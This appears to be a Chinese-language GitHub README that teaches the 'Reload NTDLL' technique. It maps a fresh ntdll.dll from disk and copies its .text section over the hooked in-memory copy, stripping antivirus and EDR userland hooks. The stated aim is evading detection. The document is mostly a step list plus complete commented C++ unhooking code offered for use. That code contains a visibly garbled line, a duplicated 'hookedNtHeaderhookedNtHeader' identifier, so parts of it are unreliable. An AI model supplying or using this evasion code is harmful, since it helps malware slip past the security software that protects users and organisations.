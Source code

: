 # Reload NTDLL

​	重新加载NTDLL是bypass hook的一种经典手段，用于解决用户模式挂钩，由于大多数杀软都会通过hook并注入shellcode的方式监测我们的进程，所以我们可以重新加载一个NTDLL文件并使用其中的函数来绕过AV的Userland的挂钩，从而实现免杀的目的。

​	手法：通过从磁盘读取 ntdll.dll 的 .text 部分并将其放在内存中映射的ntdll.dll的 .text 部分的顶部，可以完全取消挂钩内存中加载的任何给定 DLL。这可能有助于规避一些依赖于**用户空间** API 挂钩的 EDR 解决方案。

### 步骤

取消挂钩DLL的过程如下：

1. 将 ntdll.dll 的新副本从磁盘映射到进程内存

2. 查找挂钩ntdll.dll的 .text 部分的虚拟地址

3. 查找新映射ntdll.dll的 .text 部分的虚拟地址

4. 获取挂钩模块的 .text 部分的原始内存保护

5. 将 .text 部分从新映射的 dll 复制到原始（挂钩）ntdll.dll的虚拟地址（在步骤 3 中找到） - 这是取消挂钩的实质，因为所有挂钩的字节都会被磁盘中的新字节覆盖
6. 将原始内存保护应用于原始ntdll.dll中新解除挂钩的 .text 部分

![image](./README.assets/image.png)





### 代码详解

```c++
void unHook(){
    // 获取当前进程的句柄
    HANDLE process = GetCurrentProcess();
    // 定义并初始化 MODULEINFO 结构体
    MODULEINFO minfo = {};
  
    // 获取 内存中挂钩ntdll.dll 模块的句柄
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    // 获取 内存中挂钩ntdll.dll 模块的信息
    GetModuleInformation(process, ntdllModule, &minfo, sizeof(minfo));
    // 获取 内存中挂钩ntdll.dll 模块的基址
    LPVOID ntdllBase = (LPVOID)minfo.lpBaseOfDll;
  
    // 打开 磁盘中的ntdll.dll 文件
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    // 创建 新的ntdll.dll 文件的映射
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    // 映射 新的ntdll.dll 文件到内存
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    // 获取 内存中挂钩ntdll.dll 的 DOS 头
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    // 获取 内存中挂钩ntdll.dll 的 NT 头
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    // 遍历 内存中挂钩ntdll.dll 的各个节
    for (WORD i = 0; i < hookedNtHeaderhookedNtHeader->FileHeader.NumberOfSections; i++) {
        // 获取当前节的头部
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        // 如果当前节是 .text 节
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            // 保存当前节的保护属性
            DWORD oldProtection = 0;
            // 修改当前节的保护属性为可执行可读可写
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            // 拷贝新的ntdll.dll映射的节到内存中挂钩ntdll.dll对应的地址
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            // 恢复当前节的保护属性
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    // 关闭当前进程的句柄
    CloseHandle(process);
    // 关闭 新的ntdll.dll 文件的句柄
    CloseHandle(ntdllFile);
    // 关闭 新的ntdll.dll 文件的映射
    CloseHandle(ntdllMapping);
    // 释放 内存中挂钩ntdll.dll 模块
    FreeLibrary(ntdllModule);
}

```

